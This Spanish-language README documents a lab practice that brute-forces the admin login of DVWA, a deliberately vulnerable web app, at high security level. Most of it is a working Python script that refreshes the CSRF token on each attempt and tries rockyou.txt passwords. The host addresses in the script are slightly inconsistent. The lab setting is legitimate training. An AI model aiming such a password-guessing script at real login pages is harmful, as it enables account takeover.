 # Fuerza Bruta en DVWA - Práctica

## 📋 Descripción

Esta práctica consiste en realizar un ataque de fuerza bruta a la aplicación **DVWA (Damn Vulnerable Web App)** para romper la autenticación del módulo de **Brute Force** utilizando un script en Python y el diccionario `rockyou.txt`.

## 🛠️ Entorno de trabajo

- **Sistema Operativo**: Linux Mint 21
- **Aplicación objetivo**: DVWA (Damn Vulnerable Web App)
- **IP DVWA**: `172.17.0.2` (localhost)
- **Lenguaje del script**: Python 3
- **Herramientas utilizadas**:
  - Python 3
  - Librerías `requests` y `BeautifulSoup`
  - Diccionario `rockyou.txt`

## ⚙️ Configuración inicial

- **Estado de seguridad de DVWA**: `High`
- **Configuración de la base de datos**: Correcta
- **Observaciones**: Se requiere el token `user_token` en cada petición.

![Setup DVWA](assets/1-DVWAsetup.PNG)

## 🧩 Script de Fuerza Bruta

El script realiza las siguientes acciones:
- Establece una sesión usando cookies para seguridad alta.
- Obtiene dinámicamente el `user_token` necesario para cada intento.
- Prueba contraseñas del diccionario `rockyou.txt` una a una.
- Detecta el éxito cuando encuentra el mensaje `Welcome`.

Fragmento del script:

```python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = 'http://172.17.0.2/vulnerabilities/brute/'
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=high; PHPSESSID=rqs9b9elru16hltg6gvagkek195"

r = requests.get(url, headers=headers)
r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open('rockyou.txt', 'rb') as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            al = i.decode()
        except UnicodeDecodeError:
            print(f"can't decode {i}")
            continue

        r = requests.get(f'http://127.0.0.1/vulnerabilities/brute/?username=admin&password={al}&Login=Login&user_token={user_token}#', headers=headers)
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        
        print(f'checking {al}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{al}   ===found===')
            break
```
## ✅ Resultado

El ataque fue exitoso: se encontró la combinación correcta de usuario y contraseña.

Resultado obtenido en la ejecución:
![Resultado Bruteforce](assets/3-BruteForceResultado.PNG)
